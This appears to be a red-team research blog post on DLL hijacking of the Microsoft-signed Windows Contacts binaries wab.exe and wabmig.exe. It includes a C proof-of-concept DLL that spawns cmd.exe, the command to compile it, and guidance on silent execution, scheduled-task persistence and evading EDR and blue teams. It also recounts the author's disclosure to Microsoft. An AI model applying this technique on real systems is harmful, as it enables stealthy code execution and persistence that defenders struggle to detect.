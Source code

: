 ```yaml
---
title: "DLL Hijacks in Windows Contacts"
date: 2024-03-18T02:08:42Z
draft: true
tags: ["notes research"]
---
```


![Alt text](images/image-3.png)

## WAB!

Recently when looking for some bugs to leverage red teaming, I found the following Windows binaries load several libraries from the application directory. Note that these files are also digitally signed by Microsoft. 

1. `C:\Program Files\Windows Mail\wabmig.exe`
2. `C:\Program Files\Windows Mail\wab.exe`

Attackers can leverage this behavior to perform DLL hijacking / proxying attacks and obtain code execution on a target system, establish persistence and/or distribute malware. 

Sigcheck output:
```
PS C:\Program Files\Windows Mail> sigcheck .\wab.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Windows Mail\wab.exe:
        Verified:       Signed
        Signing date:   2:52 AM 2/2/2024
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Windows Contacts
        Product:        Microsoft� Windows� Operating System
        Prod version:   10.0.19041.3636
        File version:   10.0.19041.3636 (WinBuild.160101.0800)
        MachineType:    64-bit
```

### Vanilla DLL Hijack PoC

1. Create a file named "test.c" wherever you want, containing a DLL PoC, e.g.:
```c
#pragma once
#include <windows.h>
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"TEST", L"TEST", MB_OK);
        system("cmd.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

2. Open the Developer Command Prompt and navigate to the directory test.c was saved to
3. Compile test.c into msftedit.dll using the following command:
`cl /LD test.c /Fe:msftedit.dll User32.lib`
4. Copy `wab.exe` and/or `wabmig.exe` to the same directory as the new `msftedit.dll`
4. Execute wab.exe / wabmig.exe
5. Note the messagebox displaying "TEST", followed by a Command Prompt window indicating the malicious `msftedit.dll` file has been loaded by the application.

![Alt text](images/image-2.png)

As this is an application directory hijack, it is possible to host the vulnerable applications and DLLs on remote file shares, or within ISO containers to perform hijacking attacks. This is pretty sweet as it allows malware delivery options that leverage signed MS bins :) Sadly signing isn't respected from UNC paths.

Additionally, running the wab.exe application with the `/SyncLogonPicture` CLI switch avoids creating a GUI window, allowing for a stealthier form of execution-- one that's suitable for persistence.

## Disclosure

I reported this out to MS as a CWD hijack initially-- according to their [DLL planting triage](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/) post this seemed to fit the bill for a CWD. Opening an associated file type like `.contact` didn't cause the behavior though, so I came to the realize it's what they'd consider to be an application hijack. As far as MS is concerened, this warrants *no fix at all* and a severity rating of `none`.

![alt text](images/ms-response.png)

Better luck next time, I guess!

## So is this even useful?

In terms of initial access... maaaybeeee. For persistence? Yes and there are a couple use cases I can immediately apply. 

Due to the presence of a few undocumented CLI switches it's possible to launch wab/mig, and their corresponding DLL hijacks, without opening any windows. As mentioned previously, the `/SyncLogonPicture` switch does... *something*, and runs silently, which means a scheduled task like the following looks pretty innocuous, no?

![alt text](images/scheduled_task.png)

Placing a malicious `msftedit.dll` in `C:\Program Files\Windows Mail\` means every time this task is run, your payload runs too :) Sure, that requires you have local admin, womp womp, but another option would be to just copy `wab.exe` somewhere else, maybe `%appdata%`, and do the same thing. Place the DLL, make the task.

You might think: 

    "why don't you just run an exe if you can place something on disk?" 

You could definitely do that, but in the land and age of telemetry, reducing *any footprint* is potentially useful. Running a Microsoft *signed* executable shouldn't set off any alarms immediately, which in turn might help prevent high fidelity detections. A scheduled task that also **seems relevant** to what the signed binary is actually doing may further disguise this persistence mechanism, and blue teams may not (hopefully) identify the true malicious nature of the task, deferring to it's apparent legitimacy.

Anyway, lots of cheeky ways of going about this, some more useful than others. I'll take anything to keep the EDR at bay during ops, though!

